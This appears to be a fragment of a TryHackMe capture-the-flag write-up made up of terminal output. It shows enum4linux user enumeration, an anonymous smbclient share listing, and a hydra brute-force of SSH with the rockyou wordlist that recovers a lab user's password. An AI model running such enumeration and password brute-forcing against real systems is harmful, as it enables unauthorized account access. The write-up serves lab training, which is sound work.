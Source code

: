 ```
[I] Found new SID: S-1-22-1
[I] Found new SID: S-1-5-21-2007993849-1719925537-2372789573
[I] Found new SID: S-1-5-32
[+] Enumerating users using SID S-1-5-32 and logon username '', password ''
S-1-5-32-544 BUILTIN\Administrators (Local Group)
S-1-5-32-545 BUILTIN\Users (Local Group)
S-1-5-32-546 BUILTIN\Guests (Local Group)
S-1-5-32-547 BUILTIN\Power Users (Local Group)
S-1-5-32-548 BUILTIN\Account Operators (Local Group)
S-1-5-32-549 BUILTIN\Server Operators (Local Group)
S-1-5-32-550 BUILTIN\Print Operators (Local Group)
[+] Enumerating users using SID S-1-5-21-2007993849-1719925537-2372789573 and logon username '', password ''
S-1-5-21-2007993849-1719925537-2372789573-501 THM_EXPLOIT\nobody (Local User)
S-1-5-21-2007993849-1719925537-2372789573-513 THM_EXPLOIT\None (Domain Group)
[+] Enumerating users using SID S-1-22-1 and logon username '', password ''
S-1-22-1-1000 Unix User\kel (Local User)
S-1-22-1-1001 Unix User\des (Local User)
S-1-22-1-1002 Unix User\tryhackme (Local User)
S-1-22-1-1003 Unix User\noentry (Local User)
enum4linux complete on Mon Oct 12 17:53:18 2020
```

- kel
- des
- tryhackme
- noentry

```
kali@kali:~/CTFs/tryhackme/Binex$ smbclient -L 10.10.45.117 -U anomymous
Enter WORKGROUP\anomymous's password:

        Sharename       Type      Comment
        ---------       ----      -------
        print$          Disk      Printer Drivers
        IPC$            IPC       IPC Service (THM_exploit server (Samba, Ubuntu))
```

```
kali@kali:~/CTFs/tryhackme/Binex$ hydra -l tryhackme -P /usr/share/wordlists/rockyou.txt ssh://10.10.45.117
Hydra v9.0 (c) 2019 by van Hauser/THC - Please do not use in military or secret service organizations, or for illegal purposes.

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2020-10-12 17:55:38
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 16 tasks per 1 server, overall 16 tasks, 14344399 login tries (l:1/p:14344399), ~896525 tries per task
[DATA] attacking ssh://10.10.45.117:22/
[STATUS] 178.00 tries/min, 178 tries in 00:01h, 14344223 to do in 1343:06h, 16 active
[STATUS] 134.33 tries/min, 403 tries in 00:03h, 14343998 to do in 1779:40h, 16 active
[STATUS] 116.86 tries/min, 818 tries in 00:07h, 14343583 to do in 2045:45h, 16 active
[22][ssh] host: 10.10.45.117   login: tryhackme   password: thebest
1 of 1 target successfully completed, 1 valid password found
[WARNING] Writing restore file because 3 final worker threads did not complete until end.
[ERROR] 3 targets did not resolve or could not be connected
[ERROR] 0 targets did not complete
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2020-10-12 18:03:00
```
